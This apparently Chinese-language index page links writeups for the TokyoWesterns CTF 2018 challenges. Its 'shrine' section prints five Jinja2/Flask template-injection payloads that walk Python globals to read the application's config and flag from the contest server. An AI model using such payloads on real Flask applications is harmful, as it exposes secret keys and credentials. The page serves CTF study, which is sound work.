 比赛时间：2018/09/01 01:00:00 UTC — 2018/09/03 01:00:00 UTC

比赛地址：https://score.ctf.westerns.tokyo/

### Writeup

- **scs7** 

  https://ctftime.org/writeup/10861 by hackstreetboys

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/scs7

- **pysandbox** 

  https://ctftime.org/writeup/10857 by hackstreetboys

  https://ctftime.org/writeup/10852 by DoubleSigma

  https://github.com/pberba/ctf-solutions/tree/master/20180901_tokyo_western/pysandbox 

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/pysandbox

- **vimshell** 

  https://ctftime.org/writeup/10860 by Lorem Checksum

  https://ctftime.org/writeup/10859 by Lattice

  https://ctftime.org/writeup/10854 by DoubleSigma

- **shrine** 

  几种payload：

  ```bash
  curl -g "http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}"
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{session.__class__.__base__.get.__globals__['warnings']['sys']['modules']['app'].__dict__['app'].__dict__}}
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.__class__.__dict__['_load_form_data'].__globals__['current_app'].config}}
  ```
  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{url_for.__globals__['current_app'].config['FLAG']}}
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
  ```

  https://ctftime.org/writeup/10851 by DoubleSigma

  https://ctftime.org/writeup/10895 by PwnaSonic

- **SimpleAuth** 

  https://fireshellsecurity.team/simpleauth/ 

  https://ctftime.org/writeup/10876 by E-Toolz

  https://ctftime.org/writeup/10891 by PwnaSonic

- **Slack emoji converter**

  https://ctftime.org/writeup/10912 by BambooFox

- **load** 

  https://lordidiot.github.io/2018-09-03/tokyowesterns-ctf-2018-load-pwn/

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/scs7 

  https://gitlab.com/telnet/CTF-2018/blob/master/twctf/load/README.md

  https://ctftime.org/writeup/10863 

- **Swap Returns** 

  https://ctftime.org/writeup/10864 by 10sec

  https://lordidiot.github.io/2018-09-03/tokyowesterns-ctf-2018-swap-returns-pwn/

  https://gitlab.com/snippets/1750518

- **BBQ** 

  https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/

- **Revolutional Secure Angou** 

  https://4rch4ngel6320.wordpress.com/2018/09/03/revolutional-secure-angou-writeup/

  https://ctftime.org/writeup/10867

  https://ctftime.org/writeup/10865

  https://ctftime.org/writeup/10862

  https://ctftime.org/writeup/10850

- **mixed cipher** 

  https://github.com/GabiTulba/Tokyo-Westerns-2018-Mixed-Cipher-Crypto-Write-up/blob/master/README.md

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/mixed-cipher

- **Neighbor C** 

  https://ctftime.org/writeup/10873 by OpenToAll

- **EscapeMe** 

  [TokyoWesterns CTF 2018 - pwn240+300+300 EscapeMe](https://david942j.blogspot.com/2018/09/write-up-tokyowesterns-ctf-2018.html) 

- **dec dec dec**

  https://github.com/ccowmu/ctf_2018/tree/master/writeups/TokyoCTF2018/dec-dec-dec 

- **Matrix LED**

  https://github.com/p4-team/ctf/tree/master/2018-09-01-tokyowesterns/matrix_led 

- **tw playing card**

  https://github.com/zounathtan/ctf/blob/master/writeups/2018/TokyoWesterns_CTF/tw_playing_card/Readme.md 

- **REVersiNG**

  https://github.com/sea0breeze/ctf/tree/master/twctf-2018/REVersiNG

- **其他**：

  [TokyoWestern CTF WriteUp by r3kapig](https://www.anquanke.com/post/id/158894) 

  [Revolutional Secure Angou](https://ctftime.org/writeup/10862) by SealTeam1

  [Tokyo Western CTF 2018 (Qualification Round) Hints for some Crypto challenges](https://github.com/nguyenduyhieukma/CTF-Writeups/tree/master/Tokyo%20Western%20CTF/2018) 

  [TokyoWesterns CTF 4th 2018 - Write-ups](https://rawsec.ml/en/Tokyo-Westerns-2018-write-ups/) 

